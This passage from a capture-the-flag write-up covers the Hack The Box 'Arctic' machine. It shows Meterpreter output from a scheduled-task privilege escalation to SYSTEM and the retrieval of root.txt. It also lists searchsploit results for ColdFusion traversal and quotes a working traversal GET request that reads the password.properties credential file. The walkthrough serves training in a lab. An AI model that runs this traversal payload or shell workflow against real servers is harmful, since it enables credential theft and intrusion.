 ```text
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.31:1234 -> 10.10.10.11:55040) at 2019-07-30 22:39:54 +0100
[*] SUCCESS: The scheduled task "OmogtONV5" was successfully deleted.
[*] SCHELEVATOR
```

## Root Flag

Should now have a shell as root:

```text
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We can now navigate to root.txt:

```text
meterpreter > cd C:\users\administrator\Desktop
meterpreter > dir
Listing: C:\users\administrator\Desktop
=======================================
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-22 17:47:48 +0000  desktop.ini
100444/r--r--r--  32    fil   2017-03-22 19:01:59 +0000  root.txt
meterpreter > cat root.txt
<<HIDDEN>>
```

## Alternative Method (without Meterpreter)

We already know the box is using Coldfusion, so we can look for another way in:

```text
root@kali:~/htb/machines/arctic# searchsploit coldfusion traversal
------------------------------------------------------- ----------------------------------------
 Exploit Title                                         |  Path
                                                       | (/usr/share/exploitdb/)
------------------------------------------------------- ----------------------------------------
Adobe ColdFusion - Directory Traversal                 | exploits/multiple/remote/14641.py
Adobe ColdFusion - Directory Traversal (Metasploit)    | exploits/multiple/remote/16985.rb
------------------------------------------------------- ----------------------------------------
```

Let's have a look at the Python script:

```text
searchsploit -x exploits/multiple/remote/14641.py

# Working GET request courtesy of carnal0wnage:
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
